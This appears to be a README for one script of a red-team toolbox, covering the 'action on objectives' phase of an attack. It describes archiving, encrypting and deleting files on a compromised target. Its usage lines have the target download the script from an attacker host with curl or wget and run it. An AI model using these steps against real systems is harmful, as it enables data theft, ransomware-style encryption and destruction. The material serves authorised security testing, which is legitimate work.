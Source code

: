 # Action on Objectives Phase

The last phase includes the measures that are necessary to achieve the actual goal. This includes different techniques, which are applied depending on the defined goal. For example, if data needs to be stolen, it can be copied and removed. Furthermore, techniques for encryption, manipulation, destruction of data can be applied. Another goal can be the impairment of the availability of the system.

This script serves as a tool for some specified actions like encrypt files or directories.

## Features

- Create a compressed tar archive of files or directories
- Unarchive compressed tar archive
- Encrypt files or directories
- Decrypt encrypted .gpg file

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/action-on-objectives/action-on-objectives.sh
sh action-on-objectives.sh -h
```
Local network:
```sh
# Host
sh action-on-objectives.sh -w
# Target
curl -LJO <Host>:8000/action-on-objectives.sh #or
curl <Host>:8000/action-on-objectives.sh > action-on-objectives.sh #or
wget <Host>:8000/action-on-objectives.sh
sh action-on-objectives.sh -h
```

### Parameters

```
sh action-on-objectives.sh -h

Usage: action-on-objectives.sh [options]

Options:
-h                    Show this help message
-a <file, directory>  Archive and compress given files or directory
                      Specify directories without the last /
-u <file.tar.gz>      Extract the given tar archive
-e <file, directory>  Encrypt given file or directory (symmetric encryption with password)
-d <file.gpg>         Decrypt given file
-r                    Remove the original files

-w                    Serves a local web server for transferring files

Output:
-c                    No colours. Without colours, the output can probably be read better
-q                    Quiet. No banner and no advisory displayed
```

## Results

Results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information
